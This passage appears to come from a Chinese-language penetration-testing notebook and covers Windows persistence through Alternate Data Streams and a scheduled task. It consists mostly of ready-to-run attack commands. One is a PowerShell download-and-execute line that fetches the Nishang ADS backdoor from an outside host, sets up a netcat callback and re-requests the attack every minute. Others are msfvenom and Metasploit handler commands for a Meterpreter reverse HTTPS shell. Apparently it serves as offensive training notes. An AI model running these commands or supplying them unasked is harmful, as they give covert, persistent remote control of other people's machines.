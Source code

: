 	使用ADS创建一个隐藏文件，创建一个计划任务每隔一分钟请求一次攻击。
	>powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Backdoors/Invoke-ADSBackdoor.ps1'); Invoke-ADSBackdoor -PayloadURL http://192.168.0.107/ps/Schtasks-Backdoor.ps1 -Arguments 'Invoke-Tasksbackdoor -method nccat -ip 192.168.0.107 -port 12138 -time 1'"

![image](/assets/Pentest_Note/master/img/536.png)
![image](/assets/Pentest_Note/master/img/537.png)
![image](/assets/Pentest_Note/master/img/538.png)
	生成
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.107 LPORT=12138 -f powershell -o /var/www/html/ads
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_https
	>run